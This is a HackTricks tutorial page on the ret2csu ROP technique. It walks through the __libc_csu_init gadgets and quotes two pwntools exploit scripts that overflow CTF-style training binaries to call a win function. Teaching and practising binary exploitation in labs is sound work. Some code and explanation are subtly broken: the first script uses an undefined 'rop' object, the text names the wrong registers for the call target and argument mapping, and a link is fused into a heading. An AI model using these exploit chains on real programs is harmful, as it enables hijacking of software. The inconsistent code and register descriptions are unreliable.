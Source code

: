 # Ret2csu

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)Basic Information

**ret2csu** is a hacking technique used when you're trying to take control of a program but can't find the **gadgets** you usually use to manipulate the program's behavior.&#x20;

When a program uses certain libraries (like libc), it has some built-in functions for managing how different pieces of the program talk to each other. Among these functions are some hidden gems that can act as our missing gadgets, especially one called `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

In **`__libc_csu_init`**, there are two sequences of instructions (gadgets) to highlight:

1. The first sequence lets us set up values in several registers (rbx, rbp, r12, r13, r14, r15). These are like slots where we can store numbers or addresses we want to use later.

```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```

This gadget allows us to control these registers by popping values off the stack into them.

2. The second sequence uses the values we set up to do a couple of things:
   * **Move specific values into other registers**, making them ready for us to use as parameters in functions.
   * **Perform a call to a location** determined by adding together the values in r15 and rbx, then multiplying rbx by 8.

```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```

2. Maybe you don't know any address to write there and you **need a `ret` instruction**. Note that the second gadget will also **end in a `ret`**, but you will need to meet some **conditions** in order to reach it:

```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```

The conditions will be:

* `[r12 + rbx*8]` must be pointing to an address storing a callable function (if no idea and no pie, you can just use `_init` func):
  * If \_init is at `0x400560`, use GEF to search for a pointer in memory to it and make `[r12 + rbx*8]` be the address with the pointer to \_init:

```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
  0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
  0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```

* `rbp` and `rbx` must have the same value to avoid the jump
* There are some omitted pops you need to take into account

## RDI and RSI

Another way to control **`rdi`** and **`rsi`** from the ret2csu gadget is by accessing it specific offsets:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

Check this page for more info:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## Example

### Using the call

Imagine you want to make a syscall or call a function like `write()` but need specific values in the `rdx` and `rsi` registers as parameters. Normally, you'd look for gadgets that set these registers directly, but you can't find any.

Here's where **ret2csu** comes into play:

1. **Set Up the Registers**: Use the first magic gadget to pop values off the stack and into rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), and r15.
2. **Use the Second Gadget**: With those registers set, you use the second gadget. This lets you move your chosen values into `rdx` and `rsi` (from r14 and r13, respectively), readying parameters for a function call. Moreover, by controlling `r15` and `rbx`, you can make the program call a function located at the address you calculate and place into `[r15 + rbx*8]`.

You have an [**example using this technique and explaining it here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), and this is the final exploit it used:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

{% hint style="warning" %}
Note that the previous exploit isn't meant to do a **`RCE`**, it's meant to just call a function called **`win`** (taking the address of `win` from stdin calling gets in the ROP chain and storing it in r15) with a third argument with the value `0xdeadbeefcafed00d`.
{% endhint %}

### Bypassing the call and reaching ret

The following exploit was extracted [**from this page**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) where the **ret2csu** is used but instead of using the call, it's **bypassing the comparisons and reaching the `ret`** after the call:

```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX
    
# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```

### Why Not Just Use libc Directly?

Usually these cases are also vulnerable to [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), but sometimes you need to control more parameters than are easily controlled with the gadgets you find directly in libc. For example, the `write()` function requires three parameters, and **finding gadgets to set all these directly might not be possible**.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
